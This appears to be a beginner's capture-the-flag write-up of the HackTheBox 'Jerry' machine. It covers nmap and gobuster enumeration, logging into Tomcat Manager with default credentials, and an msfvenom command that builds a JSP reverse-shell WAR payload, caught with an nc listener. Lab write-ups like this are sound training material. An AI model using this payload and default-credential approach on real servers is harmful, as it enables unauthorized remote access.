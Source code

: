 # About me

Welcome all to my ``Offensive Security`` journey and first ever write up.
I have been active on ```HackTheBox``` and `Tryhackme` since December 2020.
However I have only been able to work on few  machines during the last two years while learning about ```Info-Sec``` fundamentals on ```TryHackMe``` and others few online platforms, also while I completed my degree.

Before we dive in the write up  for the first machine i Pwned that is```Jerry``` ,it's important to note that prior rooting the first machine on ```Hackthebox``` I have quasi zero experience ``Hacking``.

If you are new to ```Cyber Security```, there are many platforms out there that can help you get the knowledge .
As of now I am still learner and I believe in this industry ```Learning don't Stop```. I am currently going for my first certification that is the ```eJPT``` from ```Elearnsecurity```.

# Set UP

If you have trouble setting your home Lab to access hackthebox content, should you refer to youtube. There are tons  of videos that can help you set up your box.

# Jerry


![ping](https://user-images.githubusercontent.com/61636217/175174375-06a23643-f5d6-4390-a405-267d623c635b.png)




From the ping command we can identify that our target machine runs on ```Windows OS``` by looking at the ```TTL(Time to live)``` response. This a trick that I learned from some of the big names I watched sovling boxes on Youtube.
We have ping the machine and it echoed back to us.
Now we will proceed on scanning for open ports and enumerate all services running on our target machine.

To discover what services are currently running on the target machine, I used ```Nmap``` however there other tools that can give you the same output as ```nmap```.


# Nmap

I ran the command ```Nmap -sC -sV -T4  -Pn <IP Address> -oN <outputfile>```

```sC``` is for default scripts scan.
```sV``` is for version of the services runnimg.
```T4``` is the speed of the scan. not that, this method is crucial because you don't want to make to much noise in the network traffic so declaring a speed of four the best you need for a fast scan.
```oN``` is redirect that fouding into a file. This you would nao

![scan](https://user-images.githubusercontent.com/61636217/173915915-977a8bd6-0ef2-4280-8b91-0ac00db0a277.png)

# Gobuster

After we have ran the ```Nmap``` command we have discovered that there is 2 open ports on our target machine.

```22``` & ``8080``. We noticed that a Tomcat is running on that machine.
Before going deep in the attack we must first try enumerate some port on port 8080 to find out what directory are hosted in the application adn for that I ran ```Gobuster``` for directory discovery.

``` gobuster dir --url  http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100```
we discover an interesting directory ```Manager```.
From this step there are differents way you can plan your attack. Here We are going to exploit a misconfigure Tomcat Server.
by default All Tomcat creds are ```tomcat``` & ```s3cret```. but there are other ways to get creds.Navitgating to that Manager directory on port 8080 we prompted with sign in option. to get creds the easy way is the hit the ```cancel``` button and you will redirected to a ```401 Unauthorized``` that display the credentials in plain text. Or you can use ``Metasploit`` to run an exploit against Tomcat server to get the credentials.

# Attack

![8080](https://user-images.githubusercontent.com/61636217/175167658-cc992ea4-6978-43ab-ad94-e186c93ab26d.png)

![signin](https://user-images.githubusercontent.com/61636217/175167703-d26fcaa2-e862-45e8-ae76-ed85f98c9fda.png)


![creds](https://user-images.githubusercontent.com/61636217/175167731-af77b831-5f62-4c9a-b87a-d3bd4ad4ba48.png)

![manager](https://user-images.githubusercontent.com/61636217/175167776-b4adf04a-afc3-4998-b984-2b408783d7aa.png)

Looking at that last picture after we have successfully logged in the application we see that we have an option to upload a war file.
This is our point of entry to the system. Back on my console I created a war file payloads with ```msfvenom``` to get a reverse shell.
the command I ran ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f <File_extension> -o <file_output.war>```
I then had my payload ready to get uploaded on the target application with a listener that I had ready to receive connection from our targer after we have executed tha file that we uploaded on the server. the command was ``nc -lnvp <Port>``.

![shell](https://user-images.githubusercontent.com/61636217/175169884-bacaa480-f6a3-480a-96d8-db75e03d506a.png)

Our payloads executed well and gave us a shell. We then proceed to navigate our in the target system to retreive the flags.


![flags](https://user-images.githubusercontent.com/61636217/175169915-39c55c4d-b7a1-408e-926f-4c42c5990559.png)

For this machine we did not need to escalated our privileges  to get the root flag because we had the ``` Two for one ``` flags in one file.
This was my first machine I worked on on ```Hackthebox``` it is realistic as Apache Tomcat who is often found configured with common or weak credentials.


